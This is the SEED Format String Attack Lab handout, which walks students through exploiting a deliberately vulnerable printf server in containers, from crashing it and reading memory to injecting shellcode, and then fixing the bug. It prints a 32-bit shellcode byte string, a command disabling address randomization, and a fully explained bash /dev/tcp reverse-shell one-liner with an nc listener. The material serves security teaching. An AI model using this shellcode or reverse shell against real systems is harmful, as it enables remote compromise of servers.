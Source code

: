 ========================
Format String Attack Lab
========================

Overview
========

The ``printf()`` function in C is used to print out a string according
to a format. Its first argument is called *format string*, which defines
how the string should be formatted. Format strings use placeholders
marked by the ``%`` character for the ``printf()`` function to fill in
data during the printing. The use of format strings is not only limited
to the ``printf()`` function; many other functions, such as
``sprintf()``, ``fprintf()``, and ``scanf()``, also use format strings.
Some programs allow users to provide the entire or part of the contents
in a format string. If such contents are not sanitized, malicious users
can use this opportunity to get the program to run arbitrary code. A
problem like this is called *format string vulnerability*.

The objective of this lab is for students to gain the first-hand
experience on format string vulnerabilities by putting what they have
learned about the vulnerability from class into actions. Students will
be given a program with a format string vulnerability; their task is to
exploit the vulnerability to achieve the following damage: (1) crash the
program, (2) read the internal memory of the program, (3) modify the
internal memory of the program, and most severely, (4) inject and
execute malicious code using the victim program’s privilege. This lab
covers the following topics:

-  Format string vulnerability, and code injection

-  Stack layout

-  Shellcode

-  Reverse shell

**Readings and videos.** Detailed coverage of the format string attack can be found in the
following:

-  Chapter 6 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
   Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 9 of the SEED Lecture at Udemy, Computer Security: A Hands-on Approach, by Wenliang
   Du. See details at `<https://www.handsonsecurity.net/video.html>`_.

-  The lab also involves reverse shell, which is covered in Chapter 9 of
   the SEED book.

**Lab environment.** This lab has been tested on the SEED Ubuntu 20.04 VM. You can download a pre-built
image from the SEED website, and run the SEED VM on your own computer. However, most of the SEED
labs can be conducted on the cloud, and you can follow our instruction to create a SEED VM on the cloud.

**Note for instructors.** Instructors can customize this lab by choosing 
values for ``L``. See Section 2.2 for details. Depending on
the background of students and the time allocated for this lab,
instructors can also make the attack on 64-bit programs optional,
because it is more challenging. The attacks on 32-bit programs are
sufficient to cover the basics of the format-string attacks.

Environment Setup
=================

Turning of Countermeasure
-------------------------

Modern operating systems uses address space randomization to randomize
the starting address of heap and stack. This makes guessing the exact
addresses difficult; guessing addresses is one of the critical steps of
the format-string attack. To simplify the tasks in this lab, we turn off
the address randomization using the following command:

::

   $ sudo sysctl -w kernel.randomize_va_space=0

The Vulnerable Program
----------------------

The vulnerable program used in this lab is called ``format.c``, which
can be found in the ``server-code`` folder. This program has a
format-string vulnerability, and your job is to exploit this
vulnerability. The code listed below has the non-essential information
removed, so it is different from what you get from the lab setup file.
Below is Listing 1: The vulnerable program format.c (with non-essential
information removed).

::

   unsigned int  target = 0x11223344;
   char *secret = "A secret message\n";

   void myprintf(char *msg)
   {
       // This line has a format-string vulnerability
       printf(msg);
   }

   int main(int argc, char **argv)
   {
       char buf[1500];
       int length = fread(buf, sizeof(char), 1500, stdin);
       printf("Input size: %d\n", length);

       myprintf(buf);

       return 1;
   }

The above program reads data from the standard input, and then passes
the data to ``myprintf()``, which calls ``printf()`` to print out the
data. The way how the input data is fed into the ``printf()`` function
is unsafe, and it leads to a format-string vulnerability. We will
exploit this vulnerability.

The program will run on a server with the root privilege, and its
standard input will be redirected to a TCP connection between the server
and a remote user. Therefore, the program actually gets its data from a
remote user. If users can exploit this vulnerability, they can cause
damages.

**Compilation.** We will compile the ``format`` program into both 32-bit and 64-bit
binaries. Our pre-built Ubuntu 20.04 VM is a 64-bit VM, but it still
supports 32-bit binaries. All we need to do is to use the ``-m32``
option in the ``gcc`` command. For 32-bit compilation, we also use
``-static`` to generate a statically-linked binary, which is
self-contained and not depending on any dynamic library, because the
32-bit dynamic libraries are not installed in our containers.

The compilation commands are already provided in ``Makefile``. To
compile the code, you need to type ``make`` to execute those commands.
After the compilation, we need to copy the binary into the
``fmt-containers`` folder, so they can be used by the containers. The
following commands conduct compilation and installation.

::

   $ make
   $ make install

During the compilation, you will see a warning message. This warning is
generated by a countermeasure implemented by the ``gcc`` compiler
against format string vulnerabilities. We can ignore this warning for
now.

::

   format.c: In function 'myprintf':
   format.c:33:5: warning: format not a string literal and no format arguments
                           [-Wformat-security]
      33 |     printf(msg);
         |     ^~~~~~

It should be noted that the program needs to be compiled using the
``"-z execstack"`` option, which allows the stack to be executable. Our
ultimate goal is to inject code into the server program’s stack, and
then trigger the code. Non-executable stack is a countermeasure against
stack-based code injection attacks, but it can be defeated using the
return-to-libc technique, which is covered by another SEED labs. In this
lab, for simplicity, we disable this defeat-able countermeasure.

**For instructors.** To make the lab slightly different from the one offered in the past,
instructors can change the value for ``BUF_SIZE`` by requiring students
to compile the server code using a different ``BUF_SIZE`` value. In
``Makefile``, the ``BUF_SIZE`` value is set by the variable ``L``.
Instructors should pick a value for this variable based on the
suggestion described in ``format.c``.

**The Server Program.** In the ``server-code`` folder, you can find a program called
``server.c``. This is the main entry point of the server. It listens to
port ``9090``. When it receives a TCP connection, it invokes the
``format`` program, and sets the TCP connection as the standard input of
the ``format`` program. This way, when ``format`` reads data from
``stdin``, it actually reads from the TCP connection, i.e. the data are
provided by the user on the TCP client side. It is not necessary for
students to read the source code of ``server.c``.

We have added a little bit of randomness in the server program, so
different students are likely to see different values for the memory
addresses and frame pointer. The values only change when the container
restarts, so as long as you keep the container running, you will see the
same numbers (the numbers seen by different students are still
different). This randomness is different from the address-randomization
countermeasure. Its sole purpose is to make students’ work a little bit
different.

Container Setup and Commands
----------------------------

Please download the Labsetup.zip file to your VM from the lab’s website, unzip it, enter the Labsetup
folder, and use the docker-compose.yml file to set up the lab environment. Detailed explanation of the
content in this file and all the involved Dockerfile can be found from the user manual, which is linked
to the website of this lab. If this is the first time you set up a SEED lab environment using containers, it is
very important that you read the user manual.

In the following, we list some of the commonly used commands related to Docker and Compose. Since
we are going to use these commands very frequently, we have created aliases for them in the ``.bashrc`` file
(in our provided SEEDUbuntu 20.04 VM).

::

   $ docker-compose build # Build the container image
   $ docker-compose up # Start the container
   $ docker-compose down # Shut down the container

   // Aliases for the Compose commands above
   $ dcbuild # Alias for: docker-compose build
   $ dcup # Alias for: docker-compose up
   $ dcdown # Alias for: docker-compose down

All the containers will be running in the background. To run commands on a container, we often need
to get a shell on that container. We first need to use the "``docker ps``" command to find out the ID of
the container, and then use "``docker exec``" to start a shell on that container. We have created aliases for
them in the ``.bashrc`` file.

::

   $ dockps // Alias for: docker ps --format "{{.ID}} {{.Names}}"
   $ docksh <id> // Alias for: docker exec -it <id> /bin/bash
   
   // The following example shows how to get a shell inside hostC
   $ dockps
   b1004832e275 hostA-10.9.0.5
   0af4ea7a3e2e hostB-10.9.0.6
   9652715c8e0a hostC-10.9.0.7
   
   $ docksh 96
   root@9652715c8e0a:/#
   
   // Note: If a docker command requires a container ID, you do not need to
   //       type the entire ID string. Typing the first few characters will
   //       be sufficient, as long as they are unique among all the containers.

If you encounter problems when setting up the lab environment, please read the “Common Problems”
section of the manual for potential solutions.

Task 1: Crashing the Program
============================

When we start the containers using the included ``docker-compose.yml``
file, two containers will be started, each running a vulnerable server.
For this task, we will use the server running on ``10.9.0.5``, which
runs a 32-bit program with a format-string vulnerability. Let’s first
send a benign message to this server. We will see the following messages
printed out by the target container (the actual messages you see may be
different).

::

   $ echo hello | nc 10.9.0.5 9090
   Press Ctrl+C

   // Printouts on the container's console
   server-10.9.0.5 | Got a connection from 10.9.0.1
   server-10.9.0.5 | Starting format
   server-10.9.0.5 | Input buffer (address):        0xffffd2d0
   server-10.9.0.5 | The secret message's address:  0x080b4008
   server-10.9.0.5 | The target variable's address: 0x080e5068
   server-10.9.0.5 | Input size: 6
   server-10.9.0.5 | Frame Pointer inside myprintf() = 0xffffd1f8
   server-10.9.0.5 | The target variable's value (before): 0x11223344
   server-10.9.0.5 | hello
   server-10.9.0.5 | (^_^)(^_^) Returned properly (^_^)(^_^)
   server-10.9.0.5 | The target variable's value (after):  0x11223344

The server will accept up to ``1500`` bytes of the data from you. Your
main job in this lab is to construct different payloads to exploit the
format-string vulnerability in the server, so you can achieve the goal
specified in each task. If you save your payload in a file, you can send
the payload to the server using the following command.

::

   $ cat <file> | nc 10.9.0.5 9090
   Press Ctrl+C  if it does not exit.

**Task.** Your task is to provide an input to the server, such that when the
server program tries to print out the user input in the ``myprintf()``
function, it will crash. You can tell whether the ``format`` program has
crashed or not by looking at the container’s printout. If ``myprintf()``
returns, it will print out ``"Returned properly"`` and a few smiley
faces. If you don’t see them, the ``format`` program has probably
crashed. However, the server program will not crash; the crashed
``format`` program runs in a child process spawned by the server
program.

Since most of the format strings constructed in this lab can be quite
long, it is better to use a program to do that. Inside the
``attack-code`` directory, we have prepared a sample code called
``build_string.py`` for people who might not be familiar with Python. It
shows how to put various types of data into a string.

Task 2: Printing Out the Server Program’s Memory
================================================

The objective of this task is to get the server to print out some data
from its memory (we will continue to use ``10.9.0.5``). The data will be
printed out on the server side, so the attacker cannot see it.
Therefore, this is not a meaningful attack, but the technique used in
this task will be essential for the subsequent tasks.

-  **Task 2.A: Stack Data.** The goal is to print out the data on the
   stack. How many ``%x`` format specifiers do you need so you can get
   the server program to print out the first four bytes of your input?
   You can put some unique numbers (4 bytes) there, so when they are
   printed out, you can immediately tell. This number will be essential
   for most of the subsequent tasks, so make sure you get it right.

-  **Task 2.B: Heap Data** There is a secret message (a string) stored
   in the heap area, and you can find the address of this string from
   the server printout. Your job is to print out this secret message. To
   achieve this goal, you need to place the address (in the binary form)
   of the secret message in the format string.

   Most computers are small-endian machines, so to store an address
   ``0xAABBCCDD`` (four bytes on a 32-bit machine) in memory, the least
   significant byte ``0xDD`` is stored in the lower address, while the
   most significant byte ``0xAA`` is stored in the higher address.
   Therefore, when we store the address in a buffer, we need to save it
   using this order: ``0xDD``, ``0xCC``, ``0xBB``, and then ``0xAA``. In
   Python, you can do the following:

   ::

      number  = 0xAABBCCDD
      content[0:4]  =  (number).to_bytes(4,byteorder='little')

Task 3: Modifying the Server Program’s Memory
=============================================

The objective of this task is to modify the value of the ``target``
variable that is defined in the server program (we will continue to use
``10.9.0.5``). The original value of ``target`` is ``0x11223344``.
Assume that this variable holds an important value, which can affect the
control flow of the program. If remote attackers can change its value,
they can change the behavior of this program. We have three sub-tasks.

-  **Task 3.A: Change the value to a different value.** In this
   sub-task, we need to change the content of the ``target`` variable to
   something else. Your task is considered as a success if you can
   change it to a different value, regardless of what value it may be.
   The address of the ``target`` variable can be found from the server
   printout.

-  **Task 3.B: Change the value to ``0x5000``.** In this sub-task, we
   need to change the content of the ``target`` variable to a specific
   value ``0x5000``. Your task is considered as a success only if the
   variable’s value becomes ``0x5000``.

-  **Task 3.C: Change the value to ``0xAABBCCDD``.** This sub-task is
   similar to the previous one, except that the target value is now a
   large number. In a format string attack, this value is the total
   number of characters that are printed out by the ``printf()``
   function; printing out this large number of characters may take
   hours. You need to use a faster approach. The basic idea is to use
   ``%hn`` or ``%hhn``, instead of ``%n``, so we can modify a two-byte
   (or one-byte) memory space, instead of four bytes. Printing out
   :math:`2^{16}` characters does not take much time. More details can
   be found in the SEED book.

Task 4: Inject Malicious Code into the Server Program
=====================================================

Now we are ready to go after the crown jewel of this attack, code
injection. We would like to inject a piece of malicious code, in its
binary format, into the server’s memory, and then use the format string
vulnerability to modify the return address field of a function, so when
the function returns, it jumps to our injected code.

The technique used for this task is similar to that in the previous
task: they both modify a 4-byte number in the memory. The previous task
modifies the ``target`` variable, while this task modifies the return
address field of a function. Students need to figure out the address for
the return-address field based on the information printed out by the
server.

Understanding the Stack Layout
------------------------------

To succeed in this task, it is essential to understand the stack layout
when the ``printf()`` function is invoked inside ``myprintf()``.
Figure 1 depicts the stack layout. It
should be noted that we intentionally placed a dummy stack frame between
the ``main`` and ``myprintf`` functions, but it is not shown in the
figure. Before working on this task, students need to answer the
following questions (please include your answers in the lab report):

-  **Question 1:** What are the memory addresses at the locations marked
   by (➋) and (➌)?

-  **Question 2:** How many ``%x`` format specifiers do we need to move
   the format string argument pointer to (➌)? Remember, the argument
   pointer starts from the location above (➊).

Shellcode
---------

.. figure:: media/format_string_img1.png
   :align: center

   Figure 1: The stack layout when ``printf()`` is invoked from inside of the
   ``myprintf()`` function.

Shellcode is typically used in code injection attacks. It is basically a piece of code that launches a shell,
and is usually written in assembly languages. In this lab, we only provide the binary version of a generic
shellcode, without explaining how it works, because it is non-trivial. If you are interested in how exactly
shellcode works, and want to write a shellcode from scratch, you can learn that from a separate SEED lab
called Shellcode Lab. Our generic shellcode is listed in the following (we only list the 32-bit version):

::

   shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                              ➊
   "-c*"                                                     ➋
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd *"    ➌
   # The * in this line serves as the position marker *
   "AAAA" # Placeholder for argv[0] --> "/bin/bash"
   "BBBB" # Placeholder for argv[1] --> "-c"
   "CCCC" # Placeholder for argv[2] --> the command string
   "DDDD" # Placeholder for argv[3] --> NULL
   ).encode(’latin-1’)

The shellcode runs the "/bin/bash" shell program (Line ➊), but it is given two arguments, "-c"
(Line ➋) and a command string (Line ➌). This indicates that the shell program will run the commands in the
second argument. The * at the end of these strings is only a placeholder, and it will be replaced by one byte
of 0x00 during the execution of the shellcode. Each string needs to have a zero at the end, but we cannot
put zeros in the shellcode. Instead, we put a placeholder at the end of each string, and then dynamically put
a zero in the placeholder during the execution.

If we want the shellcode to run some other commands, we just need to modify the command string
in Line ➌. However, when making changes, we need to make sure not to change the length of this string,
because the starting position of the placeholder for the argv[] array, which is right after the command
string, is hardcoded in the binary portion of the shellcode. If we change the length, we need to modify the
binary part. To keep the star at the end of this string at the same position, you can add or delete spaces.

Both 32-bit and 64-bit versions of shellcode are included in the
``exploit.py`` inside the ``attack-code`` folder. You can use them to
build your format strings.

Your Task
---------

Please construct your input, feed it to the server program, and
demonstrate that you can successfully get the server to run your
shellcode. In your lab report, you need to explain how your format
string is constructed. Please mark on Figure 1 where your malicious code is
stored (please provide the concrete address).

**Getting a Reverse Shell.** We are not interested in running some pre-determined commands. We want
to get a root shell on the target server, so we can type any command we
want. Since we are on a remote machine, if we simply get the server to
run ``/bin/bash``, we won’t be able to control the shell program.
Reverse shell is a typical technique to solve this problem.
Section 9 provides detailed instructions on how
to run a reverse shell. Please modify the command string in your
shellcode, so you can get a reverse shell on the target server. Please
include screenshots and explanation in your lab report.

Task 5: Attacking the 64-bit Server Program
===========================================

In the previous tasks, our target servers are 32-bit programs. In this
task, we switch to a 64-bit server program. Our new target is
``10.9.0.6``, which runs the 64-bit version of the ``format`` program.
Let’s first send a hello message to this server. We will see the
following messages printed out by the target container.

::

   $ echo hello | nc 10.9.0.6 9090
   Press Ctrl+C

   // Printouts on the container's console
   server-10.9.0.6 | Got a connection from 10.9.0.1
   server-10.9.0.6 | Starting format
   server-10.9.0.6 | Input buffer (address):        0x00007fffffffe200
   server-10.9.0.6 | The secret message's address:  0x0000555555556008
   server-10.9.0.6 | The target variable's address: 0x0000555555558010
   server-10.9.0.6 | Input size: 6
   server-10.9.0.6 | Frame Pointer (inside myprintf):      0x00007fffffffe140
   server-10.9.0.6 | The target variable's value (before): 0x1122334455667788
   server-10.9.0.6 | hello
   server-10.9.0.6 | (^_^)(^_^)  Returned from printf()  (^_^)(^_^)
   server-10.9.0.6 | The target variable's value (after):  0x1122334455667788

You can see the values of the frame pointer and buffer’s address become
8 bytes long (instead of 4 bytes in 32-bit programs). Your job is to
construct your payload to exploit the format-string vulnerability of the
server. You ultimate goal is to get a root shell on the target server.
You need to use the 64-bit version of the shellcode.

**Challenges caused by 64-bit Address.** A challenge caused by 
the x64 architecture is the zeros in the address.
Although the x64 architecture supports 64-bit address space, only the
address from ``0x00`` through ``0x00007FFFFFFFFFFF`` is allowed. That
means for every address (8 bytes), the highest two bytes are always
zeros. This causes a problem.

In the attack, we need to place addresses inside the format string. For
32-bit programs, we can put the addresses anywhere, because there are no
zeros inside the address. We can no longer do this for the 64-bit
programs. If you put an address in the middle of your format string,
when ``printf()`` parses the format string, it will stop the parsing
when it sees a zero. Basically, anything after the first zero in a
format string will not be considered as part of the format string.

The problem caused by zeros is different from that in the buffer
overflow attack, in which, zeros will terminate the memory copy if
``strpcy()`` is used. Here, we do not have memory copy in the program,
so we can have zeros in our input, but where to put them is critical.
There are many ways to solve this problem, and we leave this to
students. In the lab report, students should explain how they have
solved this problem.

**A userful technique: moving the argument pointer freely.** In a 
format string, we can use ``%x`` to move the argument pointer
``va_list`` to the next optional arguments. We can also directly move
the pointer to the ``k``-th optional argument. This is done using the
format string’s parameter field (in the form of ``k$``). The following
code example uses ``"%3$.20x"`` to print out the value of the 3rd
optional argument (number 3), and then uses ``"%6$n"`` to write a value
to the 6th optional argument (the variable ``var``, its value will
become ``20``). Finally, using ``%2$.10x``, it moves the pointer back to
the 2nd optional argument (number 2), and print it out. You can see,
using this method, we can move the pointer freely back and forth. This
technique can be quite useful to simplify the construction of the format
string in this task.

::

   #include <stdio.h>
   int main()
   {
       int var = 1000;
       printf("%3$.20x%6$n%2$.10x\n", 1, 2, 3, 4, 5, &var);
       printf("The value in var: %d\n",var);
       return 0;
   }
   ----- Output ------
   seed@ubuntu:$ a.out
   000000000000000000030000000002
   The value in var: 20

Task 6: Fixing the Problem
==========================

Remember the warning message generated by the ``gcc`` compiler? Please
explain what it means. Please fix the vulnerability in the server
program, and recompile it. Does the compiler warning go away? Do your
attacks still work? You only need to try one of your attacks to see
whether it still works or not.

Guidelines on Reverse Shell
===========================

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes
from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus
only on the first line).

::

   Attacker(10.0.2.6):$ nc -nv -l 9090      <- Waiting for reverse shell
   Listening on 0.0.0.0 9090
   Connection received on 10.0.2.5 39452
   Server(10.0.2.5):$                      <-Reverse shell from 10.0.2.5.
   Server(10.0.2.5):$ ifconfig
   ifconfig
   enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
           inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255
           ...

The above ``nc`` command will block, waiting for a connection. We now directly run the following bash
program on the Server machine (``10.0.2.5``) to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP
address is indeed ``10.0.2.5``, the one belonging to the Server machine. Here is the bash command:

::

   Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1

The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

-  "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive
   (must provide a shell prompt).

-  "> /dev/tcp/10.0.2.6/9090": This causes the output device (``stdout``) of the shell to be
   redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems, stdout’s file
   descriptor is 1.

-  "0<&1": File descriptor 0 represents the standard input device (``stdin``). This option tells the system
   to use the standard output device as the stardard input device. Since stdout is already redirected to
   the TCP connection, this option basically indicates that the shell program will get its input from the
   same TCP connection.

-  "2>&1": File descriptor 2 represents the standard error ``stderr``. This causes the error output to be
    redirected to stdout, which is the TCP connection.

In summary, the command "``/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1``" starts
a bash shell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when the ``bash`` shell command is executed on ``10.0.2.5``, it
connects back to the netcat process started on ``10.0.2.6``. This is confirmed via the "Connection
from ``10.0.2.5`` ..." message displayed by netcat.

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.